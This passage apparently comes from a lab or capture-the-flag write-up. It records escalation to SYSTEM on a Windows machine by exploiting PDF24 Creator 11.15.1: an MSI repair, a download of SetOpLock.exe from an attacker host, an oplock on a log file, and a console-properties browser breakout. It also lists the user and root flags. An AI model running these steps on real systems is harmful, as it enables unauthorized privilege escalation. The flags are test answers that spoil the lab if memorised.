 User flag: `VL{d617459a7ff1a2b2ae7274d677095d59}`
![Pasted image 20240714124608.png](/images/Pasted image 20240714124608.png){: .normal width="600" }


## Privilege Escalation
Found a _install folder on the C: drive with a pdf creator.msi file.
![Pasted image 20240714124602.png](/images/Pasted image 20240714124602.png){: .normal }


Checking for privilege escalation using the pdf creator version we find the following: [Guide](https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html).
```bash
# Start by running the application
msiexec.exe /fa C:\\_install\\pdf24-creator-11.15.1-x64.msi

# Next we can transfer the SetOpLock.exe file: [LINK](<https://github.com/googleprojectzero/symboliclink-testing-tools>)
invoke-webrequest <http://10.8.1.49/SetOpLock.exe> -O SetOpLock.exe

# Use SetOpLock to spawn a shell
.\\SetOpLock.exe "C:\\Program Files\\PDF24\\faxPrnInst.log" r
```

We now see a new terminal where we can’t enter commands.
![Pasted image 20240714124557.png](/images/Pasted image 20240714124557.png){: .normal }


Do the following steps:
```
- right click on the top bar of the cmd window
- click on properties
- under options click on the "Legacyconsolemode" link
- open the link with a browser other than internet explorer or edge (both don't open as SYSTEM when on Win11)
- in the opened browser window press the key combination CTRL+o
- type cmd.exe in the top bar and press Enter
```

Shell as nt authority.
![Pasted image 20240714124550.png](/images/Pasted image 20240714124550.png){: .normal }


Root flag: `VL{67895a961bc218ebc50d86b49f0ea192}`.
![Pasted image 20240714124544.png](/images/Pasted image 20240714124544.png){: .normal width="600" }